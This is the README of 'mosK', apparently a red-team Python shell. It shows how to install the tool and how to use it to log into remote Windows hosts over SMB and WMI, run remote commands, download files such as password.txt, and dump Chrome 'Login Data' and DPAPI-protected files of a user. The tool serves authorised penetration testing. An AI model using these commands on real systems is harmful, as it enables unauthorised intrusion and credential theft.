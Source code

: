 # mosK 🦅
the red team `IPython` shell 🧑‍💻

## installation
```bash
pip3 install pipx # install pipx
pipx ensurepath # ensure the pipx path
pipx install git+https://github.com/idobarel/mosK.git # install the package
```
## why IPython?
It is just better. the fact you can run in a pythonic env allows you to: 
- run more complete logic on you products
- create automation and scripts
- develop more crazy stuff (without breaking you head)
- have it all in one


## usage
as it is for now, there are few utils the `mosK` provides:
### `Target` class:
the target object can be used to access remote computers `SMB` (for file manipulation) or `WMI` (for RCE or WQL).
the target class is easy to use and it is the base for all the other utils.
### `Chrome` class:
allows you to take a target and dump all the chrome `Login Data` files of a specific user.
### `DPAPI` class:
allows you to get all the dpapi protect files of a user, for `home-side` decryption of data.
### `ExecWMI` class:
gives you the features of `impackets wmiexec`!


## example usage
this should cover most of the usage, feel free the explorer throgh the shell!
```python
# target init
target = Target("test:test@192.168.1.13")

# login one by one
target.smb.login()
target.wmi.login()
# OR
# login both at once
target.login_all()


# shares or files manipulation (SMB must be logged in!)
target.smb.list_shares() # get a list of shares
target.smb.use_share("C$") # use the share `C$`
target.smb.list_path("\\Windows\\Temp\\") # to list the C:\Windows\Temp path
target.smb.download_file("\\Admin Folder\\password.txt") # save remote file to `password.txt`
# upload `lol.txt` to remote target
target.smb.upload_file("./lol.txt", "\\Users\\test\\Desktop\\lol.txt")

# RCE + WQL (WMI must be logged in!)
target.wmi.create_process("netstat.exe -an") # run netstat (no output)
target.wmi.query("select name,processid from Win32_Process") # get a tasklist using WQL


# executor (wmiexec)
wmiexec = ExecWMI(target)
wmiexec.shell() # start a shell
wmiexec.execute("whoami") # run a single command (with output)

# dpapi
dpapi = DPAPI(target)
dpapi.get_protect_files("test") # dump all the protect files of `test`

# chrome
chrome = Chrome(target)
chrome.dump("test") # dump all the chrome files of `test`


target # to see the running connections
target.clear() # close the connections
```

To exit the console and close all the connections, you can hit `CTRL+D` 🧮
